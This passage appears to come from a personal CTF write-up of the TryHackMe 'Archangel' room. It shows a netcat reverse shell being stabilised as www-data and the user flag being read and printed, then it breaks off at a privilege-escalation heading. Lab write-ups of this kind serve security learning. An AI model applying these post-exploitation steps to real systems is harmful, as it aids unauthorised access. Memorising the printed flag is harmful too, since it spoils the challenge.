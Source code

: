 Now we go to the file :

![Pasted image 20250729124920.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250729124920.png)

## Shell Stabilization

Now we can do a [Shell Stabilization](../../3%20-%20Tags/Hacking%20Concepts/Shell%20Stabilization.md) :

```bash
$ export TERM=xterm
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/srv$ ^Z
zsh: suspended  nc -lvnp 1337
             
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Easy/Archangel]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1337
                               reset

www-data@ubuntu:/$       
```

Now we can retrieve the **==user flag==** in /home/archangel :

```bash
$ cd home
$ ls
archangel
$ cd archangel
$ls
myfiles
secret
user.txt
$ cat user.txt
thm{lf1_t0_rc3_1s_tr1cky}
```
# Lateral Movement - Privilege Escalation
## www-data to Archangel
